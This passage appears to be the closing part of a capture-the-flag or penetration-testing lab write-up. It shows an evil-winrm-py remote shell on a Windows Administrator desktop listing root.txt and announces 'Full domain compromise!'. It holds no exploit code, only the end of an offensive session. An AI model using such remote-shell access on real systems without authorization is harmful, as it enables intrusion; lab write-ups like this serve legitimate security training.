evil-winrm-py PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-ar---        9/25/2026   9:05 AM             34 root.txt                                                               


evil-winrm-py PS C:\Users\Administrator\Desktop>
```

Full domain compromise!
